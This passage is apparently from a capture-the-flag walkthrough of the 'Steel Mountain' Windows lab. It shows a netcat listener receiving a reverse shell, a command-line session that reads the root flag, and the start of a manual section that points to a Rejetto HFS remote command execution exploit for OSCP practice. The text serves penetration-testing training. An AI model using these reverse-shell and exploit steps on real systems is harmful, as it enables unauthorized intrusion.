 Once the connection has been established with our listener we can navigate to this user's desktop directory to get the flag.

```
╭─root@kali ~  
╰─➤  nc -lvnp 4443         
listening on [any] 4443 ...
connect to [10.8.76.102] from (UNKNOWN) [10.10.156.92] 49343
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Windows\system32>cd c:\Users\Administrator\Desktop
cd c:\Users\Administrator\Desktop

c:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 2E4A-906A

 Directory of c:\Users\Administrator\Desktop

10/12/2020  12:05 PM    <DIR>          .
10/12/2020  12:05 PM    <DIR>          ..
10/12/2020  12:05 PM             1,528 activation.ps1
09/27/2019  05:41 AM                32 root.txt
               2 File(s)          1,560 bytes
               2 Dir(s)  44,170,854,400 bytes free

c:\Users\Administrator\Desktop>more root.txt    
more root.txt
9af5**********7c00f**********d***
```

<br />

We just pwned Steel Mountain using Metasploit!

<br />
<br />

### 4. Initial access without Metasploit

<br />

Now for a manual approach to rooting this machine - This section should be particularly useful as a basic refresher to anyone preparing for the OSCP exam, which does not allow the use of Metasploit.

Navigate to [Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (2)](https://www.exploit-db.com/exploits/39161/) and download a copy of this exploit, as we will be using this to gain initial access to the target after updating the `ip_addr` and `local_port` values with our local IP and port values.

As mentioned in the task, this will only work having both an active `netcat` listener and a web server running at the same time and from the same location.
